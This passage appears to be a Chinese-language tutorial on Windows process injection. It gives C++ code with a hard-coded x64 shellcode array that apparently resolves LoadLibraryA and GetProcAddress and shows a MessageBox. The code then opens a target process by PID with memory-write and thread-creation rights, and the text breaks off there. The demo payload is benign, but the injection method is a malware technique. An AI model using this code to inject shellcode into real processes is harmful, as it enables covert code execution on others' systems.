 ```cpp
    std::cout << GetLastError() << std::endl;
}
```



# 注入进程并执行SHELLCODE

```cpp
// 进程注入.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <iostream>
#include <Windows.h>

int main()
{
    unsigned char data[] = {
    0x40, 0x55, 0x53, 0x56, 0x57, 0x41, 0x54, 0x41, 0x55, 0x41, 0x56, 0x41, 0x57, 0x48, 0x8B, 0xEC,
    0x48, 0x83, 0xEC, 0x78, 0x45, 0x33, 0xC0, 0xC7, 0x45, 0xB0, 0x55, 0x53, 0x45, 0x52, 0x44, 0x88,
    0x45, 0xBA, 0xC7, 0x45, 0xB4, 0x33, 0x32, 0x2E, 0x44, 0x66, 0xC7, 0x45, 0xB8, 0x4C, 0x4C, 0xC7,
    0x45, 0xC0, 0x4D, 0x65, 0x73, 0x73, 0xC7, 0x45, 0xC4, 0x61, 0x67, 0x65, 0x42, 0xC7, 0x45, 0xC8,
    0x6F, 0x78, 0x41, 0x00, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x60, 0x00, 0x00, 0x00, 0xC7, 0x45, 0xD0,
    0x4C, 0x6F, 0x61, 0x64, 0xC7, 0x45, 0xD4, 0x4C, 0x69, 0x62, 0x72, 0xC7, 0x45, 0xD8, 0x61, 0x72,
    0x79, 0x41, 0x4C, 0x8B, 0x78, 0x18, 0x49, 0x83, 0xC7, 0x20, 0x44, 0x88, 0x45, 0xDC, 0xC7, 0x45,
    0xE0, 0x47, 0x65, 0x74, 0x50, 0xC7, 0x45, 0xE4, 0x72, 0x6F, 0x63, 0x41, 0xC7, 0x45, 0xE8, 0x64,
    0x64, 0x72, 0x65, 0x4D, 0x8B, 0x77, 0x08, 0x66, 0xC7, 0x45, 0xEC, 0x73, 0x73, 0x44, 0x88, 0x45,
    0xEE, 0x4C, 0x89, 0x45, 0x60, 0x4C, 0x89, 0x45, 0x58, 0xE9, 0xC4, 0x00, 0x00, 0x00, 0x49, 0x8B,
    0x76, 0x20, 0x48, 0x63, 0x46, 0x3C, 0x48, 0x8B, 0x84, 0x30, 0x88, 0x00, 0x00, 0x00, 0x48, 0x8B,
    0xC8, 0x48, 0xC1, 0xE9, 0x20, 0x85, 0xC9, 0x0F, 0x84, 0xA1, 0x00, 0x00, 0x00, 0x8B, 0xC8, 0x44,
    0x89, 0x45, 0x48, 0x8B, 0x44, 0x31, 0x18, 0x89, 0x45, 0x50, 0x85, 0xC0, 0x0F, 0x84, 0x8C, 0x00,
    0x00, 0x00, 0x44, 0x8B, 0x64, 0x31, 0x24, 0x8B, 0x54, 0x31, 0x1C, 0x4C, 0x03, 0xE6, 0x44, 0x8B,
    0x6C, 0x31, 0x20, 0x4C, 0x03, 0xEE, 0x48, 0x89, 0x55, 0xA8, 0x41, 0x0F, 0xB7, 0x04, 0x24, 0x41,
    0x8B, 0x5D, 0x00, 0x48, 0x03, 0xDE, 0x48, 0x8D, 0x0C, 0x82, 0x48, 0x8B, 0xD3, 0x8B, 0x3C, 0x31,
    0x48, 0x8D, 0x4D, 0xD0, 0x48, 0x03, 0xFE, 0xE8, 0x90, 0x00, 0x00, 0x00, 0x85, 0xC0, 0x48, 0x8B,
    0xCF, 0x48, 0x8B, 0xD3, 0x48, 0x0F, 0x44, 0x4D, 0x58, 0x48, 0x89, 0x4D, 0x58, 0x48, 0x8D, 0x4D,
    0xE0, 0xE8, 0x76, 0x00, 0x00, 0x00, 0x45, 0x33, 0xC0, 0x85, 0xC0, 0x48, 0x0F, 0x44, 0x7D, 0x60,
    0x48, 0x8B, 0xDF, 0x48, 0x89, 0x5D, 0x60, 0x48, 0x85, 0xFF, 0x74, 0x09, 0x48, 0x8B, 0x55, 0x58,
    0x48, 0x85, 0xD2, 0x75, 0x28, 0x8B, 0x45, 0x48, 0x49, 0x83, 0xC5, 0x04, 0x48, 0x8B, 0x55, 0xA8,
    0xFF, 0xC0, 0x49, 0x83, 0xC4, 0x02, 0x89, 0x45, 0x48, 0x3B, 0x45, 0x50, 0x72, 0x8C, 0x4D, 0x8B,
    0x76, 0x08, 0x4D, 0x3B, 0xF7, 0x0F, 0x85, 0x33, 0xFF, 0xFF, 0xFF, 0xEB, 0x1B, 0x48, 0x8D, 0x4D,
    0xB0, 0xFF, 0xD2, 0x48, 0x8D, 0x55, 0xC0, 0x48, 0x8B, 0xC8, 0xFF, 0xD3, 0x45, 0x33, 0xC9, 0x45,
    0x33, 0xC0, 0x33, 0xD2, 0x33, 0xC9, 0xFF, 0xD0, 0x33, 0xC0, 0x48, 0x83, 0xC4, 0x78, 0x41, 0x5F,
    0x41, 0x5E, 0x41, 0x5D, 0x41, 0x5C, 0x5F, 0x5E, 0x5B, 0x5D, 0xC3, 0xCC, 0x44, 0x8A, 0x01, 0x33,
    0xC0, 0x4C, 0x8B, 0xDA, 0x44, 0x8B, 0xD0, 0x45, 0x84, 0xC0, 0x74, 0x0E, 0x4C, 0x8B, 0xC9, 0x49,
    0xFF, 0xC1, 0x41, 0xFF, 0xC2, 0x41, 0x38, 0x01, 0x75, 0xF5, 0x44, 0x8B, 0xC8, 0xEB, 0x06, 0x41,
    0xFF, 0xC1, 0x48, 0xFF, 0xC2, 0x38, 0x02, 0x75, 0xF6, 0x45, 0x3B, 0xD1, 0x75, 0x23, 0x8B, 0xD0,
    0x45, 0x84, 0xC0, 0x74, 0x16, 0x4C, 0x2B, 0xD9, 0x46, 0x3A, 0x04, 0x19, 0x75, 0x0D, 0x48, 0xFF,
    0xC1, 0xFF, 0xC2, 0x44, 0x8A, 0x01, 0x45, 0x84, 0xC0, 0x75, 0xED, 0x41, 0x3B, 0xD2, 0x0F, 0x94,
    0xC0, 0xC3, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
    };
    DWORD pid = 3008;  // 目标进程 PID，替换为真实 PID

    // 打开目标进程，申请读写和操作内存权限
    HANDLE hProcess = OpenProcess(
        PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ | PROCESS_CREATE_THREAD,
        FALSE,
        pid
    );

    if (hProcess == NULL) {
        printf("打开进程失败，错误码: %lu\n", GetLastError());
        return 1;
```